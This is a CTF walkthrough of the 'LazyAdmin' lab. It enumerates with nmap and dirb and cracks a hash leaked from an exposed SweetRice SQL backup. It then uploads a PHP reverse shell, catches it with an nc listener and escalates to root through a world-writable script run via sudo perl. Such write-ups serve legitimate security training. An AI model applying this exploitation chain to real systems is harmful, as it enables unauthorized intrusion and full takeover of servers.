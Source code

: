 # LazyAdmin | Wite-Up

## Enumeration

- Run nmap scan to see what ports and services are running.
    ``` 
    nmap -sC -sV 10.10.163.194
    ```
    ![](pix/nmap1.png)

- nmap shows port 22 and 80 open. SSH can't be brute forced so lets check out the website.

    ![](pix/website1.png)
    - The webpage is the default apache page. Something seems to be missing. 
    
- Using dirb, lets find some hidden directories. I used the common.txt wordlist found in kali /usr/share/wordlists/dirb/common.txt
- ```
    dirb http://<IP> <PATH TO WORDLIST>
    ```
    ![](pix/dirb.png)
- Some interesting pages were found 
    - http://<IP>/content/ shows the webpage uses SweetRice CMS
    - http://<IP>/content/as/ shows login page. admin:admin does not work.
    - http://<IP>/content/inc/ shows the directory index
    ![](pix/website2.png)
    - Inside the mysql_backup folder, there is a file called 'mysql_bakup_20191129023059-1.5.1.sql' which might contain the password for the login page.
    - the file lastest.txt says '1.5.1' which could be the CMS version

## Exploitation

- Looking the the mysql_backup file, I found a string that looks like a username and hash of a password.
    ```
    cat mysql_bakup_20191129023059-1.5.1.sql | grep 'pass'
    ```

    ![](pix/sql.png)

- Save the password hash to a txt file and run hashcat on it using rockyou.txt to perform dictionary brute force. 
    ```
    hashcat -m0 pass.txt /usr/share/    wordlists/rockyou.txt
    ```
- Hashcat shows the password is 'Password123' ....SMH could have guessed that.

    ![](pix/pass.png)

- Back at the login page to try the username and password. AND WE ARE IN. 
    ```
    username: manager
    password: Password123
    ```

- After doing some research, it looks like we can upload PHP in the 'Ads' section and pop a reverse shell by visiting that page.

- I went with the php reverse shell provided by Kali linux in ```/usr/share/webshells/php/php-reverse-shell.php```
    - Make sure to change the ip and port to your local machine.

- Copy the content of php-reverse-shell.php and paste it into the webpage. Name it whatever you want (don not add .php, it will automatically get added). Click done.
The php code gets uploaded to http://IP/content/inc/ads/shell.php

    ![](pix/shell2.png)

- On the attack machine set up a listener using the same port that you chose. 
    ``` 
    nc -lnvp 4444
    ```
- To activate the reverse shell, simply visit ```http://IP/content/inc/ads/shell.php```

- ## BAMM! got a shell
    ![](pix/shell3.png)
    
    - To upgrade the shell use the following command
    ```
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
- In /home/itguy the user.txt contains the first flag.

  ![](pix/flag1.png)  



## Privilege Escalation:


- The root.txt file is in the root directory which we do not have permission to view. Time to escalate to root.

- ```sudo -l``` 
    - shows that www-data can run ```/usr/bin/perl /home/itguy/backup.pl``` without a password. 

        ![](pix/priv1.png)
- Inspecting backup.pl show that it is not writable, but it calls a script in ```/etc/copy.sh``` which has universal write permission. 
 - we can modify ```copy.sh``` script to spawn a root shell because it will be used by pear using sudo. 
    ![](pix/priv2.png)

- This machine doesn't have vim, vi, or nano.. So we can just echo our command into the file.

- ```
   echo '/bin/bash' > /etc/copy.sh
    ```

- cat /etc/copy.sh to verify then EXPLOIT

- ```
    sudo /usr/bin/perl /home/itguy/backup.pl
    ```
    ![](pix/priv3.png)

- Now that we are root, simply cat /root/root.txt for the flag

![](pix/priv4.png)






